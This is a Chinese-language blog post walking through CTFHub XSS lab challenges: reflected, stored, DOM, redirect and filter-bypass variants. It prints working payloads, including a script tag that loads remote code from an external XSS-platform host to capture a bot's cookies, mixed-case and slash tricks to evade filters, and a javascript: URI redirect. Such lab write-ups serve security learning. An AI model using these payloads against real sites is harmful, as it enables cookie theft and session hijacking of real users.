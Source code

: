 ```yaml
---
layout: post
title: CTFHub Web XSS
subtitle: CTFHub Web XSS
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. XSS

### 1.1. 反射型

![image](https://img.ghostliner.top/vPYvXZ.png)

```html
<script>alert(123)</script> #成功
```

注册 XSS 平台，填入 `<sCRiPt sRC=//xs.pe/s2x></sCrIpT>` 复制地址栏地址 sendURLtoBot

查看访问记录的 cookie

![image](https://img.ghostliner.top/gCTZA2.png)

### 1.2. 存储型

```html
<script>alert(123)</script> #成功
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/3bfA5q.png)

### 1.3. DOM 反射

```html
<script>alert(123)</script> #失败，发现是与原始script闭合导致
```

![image](https://img.ghostliner.top/MzoYuf.png)![image](https://img.ghostliner.top/bXxHxO.png)

```html
#补全，成功
</script><script>alert(123)</script>
</script><sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9aszLX.png)

### 1.4. DOM 跳转

查看页面代码，可知需要构造 `?jumpto=xxx`

![image](https://img.ghostliner.top/JQjr1V.png)

```uri
http://challenge-e727a1e5d8b21242.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(123)
```

成功

### 1.5. 过滤空格

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9LDH67.png)

```html
<sCRiPt/SrC=//xs.pe/s2x> #成功
```

![image](https://img.ghostliner.top/tzZv2B.png)

### 1.6. 过滤关键词

测试过滤 `script``img``onerror`

![image](https://img.ghostliner.top/8Rpv7u.png)

大写绕过

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/o8kMjK.png)
